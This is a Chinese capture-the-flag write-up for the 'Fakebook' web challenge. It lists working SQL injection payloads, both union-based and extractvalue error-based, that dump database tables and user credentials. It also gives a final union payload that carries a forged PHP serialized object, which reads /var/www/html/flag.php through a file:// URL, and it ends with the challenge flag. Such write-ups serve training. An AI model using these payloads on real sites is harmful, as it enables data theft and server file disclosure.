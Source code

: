 # Fakebook

> sql注入+文件泄露+LFR

## 思路分析

> sql注入+目录遍历+文件泄露+LFR,先注册账号,登陆,点击账号,发现一处sql注入点,sql注入用sqlmap不能用,可用内联注释绕过,order by判断出有4列,用联合注入或者报错注入获取数据.联合注入时no参数要为-1,为-1是因为要让服务端返回union select的结果,把no设置为-1,因为数据库没有-1的数据,所有会返回select的结果.

```
-1 union/**/select1,database(),3,4#
-1 union/**/select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema=database()#
-1 union/**/select 1,group_concat(column_name),3,4 from information_schema.columns where table_name='users'#
-1 union/**/select 1,group_concat(column_name),3,4 from information_schema.columns where table_name='users'#
-1 union/**/select 1,group_concat(no,'|',username,'|',passwd,'|',data),3,4 from users#
```

```
1^extractvalue(1,concat(1,(select(group_concat(database())))));#
1^extractvalue(1,concat(1,(select(group_concat(table_name))from(information_schema.tables)where((table_schema)like'mysq'))));#
1^extractvalue(1,concat(1,(select(group_concat(table_name))from(information_schema.tables)where((table_schema)like'fakebook'))));#
1^extractvalue(1,concat(1,(select(group_concat(column_name))from(information_schema.columns)where((table_name)like'users'))));#
1^extractvalue(1,concat(1,(select(left(data,30))from(users))));#
```

> 现在data的字段是序列化字符串,说明还有其他的切入点没有发现,进行信息收集,发现robots.txt,访问,发现user.php.bak,下载得到备份的源码.分析源码得知getBlogContents函数是从blog的值处获取内容并返回的,blog的内容是注册时用户控制的,此处存在LFR漏洞,如果没有sValidBlog这个函数,直接file:///var/www/html/flag.php就能拿到flag.

> 那为什么会有序列化？是在注册后,把注册时提交的信息序列化一下,然后存到数据库的data字段中的,然后在user界面,从数据库中获取data数据,进行反序列化展现在页面上的.这时可以人为构造联合查询返回语句,data字段在第四个位置.union select联合查询,即合并(取交集,结果中没有重复行)前后两个查询,所有union select前面要查的值是不存在的一个值才行.构造请求后的网页源码里有一串base64字符,解码得到flag

## payload

> ?no=0/**/union\/*\*/select 1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:1:"1";s:3:"age";i:1;s:4:"blog";s:29:"file:///var/www/html/flag.php";}'

## flag

> flag{c1e552fdf77049fabf65168f22f7aeab}